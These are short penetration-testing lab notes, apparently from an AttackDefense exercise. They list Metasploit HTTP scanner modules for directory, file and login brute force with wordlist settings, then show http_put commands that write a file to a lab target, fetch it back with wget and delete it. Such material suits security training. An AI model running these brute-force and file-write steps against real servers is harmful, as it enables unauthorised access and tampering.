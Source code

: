 - auxiliary/scanner/http/http_version
- auxiliary/scanner/http/http_header
- auxiliary/scanner/http/robots_txt
- auxiliary/scanner/http/dir_scanner # Directory brute force
	set DICTIONARY /usr/share/metasploit-framework/data/wordlists/directory.txt
- auxiliary/scanner/http/files_dir # File brute force
- auxiliary/scanner/http/http_login # Login brute force
	if using PASS_FILE and USER_FILE, unset the USERPASS_FILE
	dictionary options besides the default:
	set USER_FILE /usr/share/metasploit-framework/data/wordlists/namelist.txt
	set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

- auxiliary/scanner/http/apache_userdir_enum # identify valid users
- auxiliary/scanner/http/brute_dirs


### auxiliary/scanner/http/http_put
Tip: try differents PATH options, ex:
```
> set PATH /
> set PATH /data/

```


Example (write file on the target server. If the file is already exists it will overwrite it)
```
use auxiliary/scanner/http/http_put
set RHOSTS 192.111.169.3
set PATH /data
set FILENAME test.txt
set FILEDATA "Welcome To AttackDefense"
run
```
Then use wget and download the test.txt file and verify it:
```
wget http://192.111.169.3:80/data/test.txt
```

use DELETE method and delete the text.file
```
use auxiliary/scanner/http/http_put
set RHOSTS 192.111.169.3
set PATH /data
set FILENAME test.txt
set ACTION DELETE
run
```
Now if you try to download the same file from the same path. This time we should receive 404 error. i.e file not found. Because we have deleted it.